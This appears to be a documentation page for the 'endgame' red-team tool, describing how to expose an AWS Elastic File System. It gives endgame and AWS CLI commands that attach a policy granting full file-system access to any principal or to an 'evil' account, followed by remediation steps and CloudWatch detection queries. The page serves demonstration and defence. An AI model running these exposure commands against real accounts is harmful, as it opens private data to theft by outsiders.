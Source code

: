 # Elastic File Systems (EFS)

## Steps to Reproduce

> Note: The Terraform demo infrastructure will output the EFS File System ID. If you are using the Terraform demo infrastructure, you must leverage the file system ID in the `--name` parameter.

* To expose the resource using `endgame`, run the following from the victim account:

```bash
export EVIL_PRINCIPAL=arn:aws:iam::999988887777:user/evil

endgame expose --service efs --name fs-01234567
```

* Alternatively, to expose the resource using the AWS CLI, run the following from the victim account:

```bash
aws efs put-file-system-policy --file-system-id fs-01234567 --policy '{
    "Version": "2012-10-17",
    "Id": "read-only-example-policy02",
    "Statement": [
        {
            "Sid": "AllowEverybody",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": [
                "elasticfilesystem:*"
            ],
            "Resource": "*"
        }
    ]
}'
```

* To view the contents of the file system policy, run the following:

```bash
aws efs describe-file-system-policy \
    --file-system-id fs-01234567
```

* Observe that the contents of the overly permissive resource-based policy match the example shown below.

## Example

The policy below shows the EFS policy granting `elasticfilesystem:*` access to the file system from the evil principal (`arn:aws:iam::999988887777:user/evil`).

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "AllowCurrentAccount",
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:iam::111122223333:root"
            },
            "Action": "elasticfilesystem:*",
            "Resource": "arn:aws:elasticfilesystem:us-east-1:111122223333:file-system/fs-01234567"
        },
        {
            "Sid": "Endgame",
            "Effect": "Allow",
            "Principal": {
                "AWS": "arn:aws:iam::999988887777:user/evil"
            },
            "Action": "elasticfilesystem:*",
            "Resource": "arn:aws:elasticfilesystem:us-east-1:111122223333:file-system/fs-01234567"
        }
    ]
}
```


## Exploitation

```
TODO
```

## Remediation

> ‼️ **Note**: At the time of this writing, AWS Access Analyzer does **NOT** support auditing of this resource type to prevent resource exposure. **We kindly suggest to the AWS Team that they support all resources that can be attacked using this tool**. 😊

* **Block Public Access to the EFS File System**: Follow the EFS Guidance [here](https://docs.aws.amazon.com/efs/latest/ug/access-control-block-public-access.html) to block public access to the EFS File Systems.
* **Trusted Accounts Only**: Ensure that EFS File Systems are only shared with trusted accounts, and that the trusted accounts truly need access to the File System.
* **Ensure access is necessary**: For any trusted accounts that do have access, ensure that the access is absolutely necessary.
* **Restrict access to IAM permissions that could lead to exposure of your EFS File Systems**: Tightly control access to the following IAM actions:
  - [elasticfilesystem:PutFileSystemPolicy](https://docs.aws.amazon.com/efs/latest/ug/API_PutFileSystemPolicy.html): _Grants permission to apply a resource-level policy that defines the actions allowed or denied from given actors for the specified file system_
  - [elasticfilesystem:DescribeFileSystems](https://docs.aws.amazon.com/efs/latest/ug/API_DescribeFileSystems.html): _Grants permission to view the description of an Amazon EFS file system specified by file system CreationToken or FileSystemId; or to view the description of all file systems owned by the caller's AWS account in the AWS region of the endpoint that is being called_
  - [elasticfilesystem:DescribeFileSystemPolicy](https://docs.aws.amazon.com/efs/latest/ug/API_DescribeFileSystemPolicy.html): _Grants permission to view the resource-level policy for an Amazon EFS file system_

Also, consider using [Cloudsplaining](https://github.com/salesforce/cloudsplaining/#cloudsplaining) to identify violations of least privilege in IAM policies. This can help limit the IAM principals that have access to the actions that could perform Resource Exposure activities. See the example report [here](https://opensource.salesforce.com/cloudsplaining/)

## Basic Detection
The following CloudWatch Log Insights query will include exposure actions taken by endgame:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent
| filter eventSource='elasticfilesystem.amazonaws.com' and eventName='PutFileSystemPolicy'
```

The following query detects policy modifications which include the default IOC string:
```
fields eventTime, eventSource, eventName, userIdentity.arn, userAgent
| filter eventSource='elasticfilesystem.amazonaws.com' and (eventName='PutFileSystemPolicy' and requestParameters.policy like 'Endgame')
```

This query assumes that your CloudTrail logs are being sent to CloudWatch and that you have selected the correct log group.

## References

* [put-filesystem-policy](https://awscli.amazonaws.com/v2/documentation/api/latest/reference/efs/put-file-system-policy.html)
* [Creating File System Policies](https://docs.aws.amazon.com/efs/latest/ug/create-file-system-policy.html)
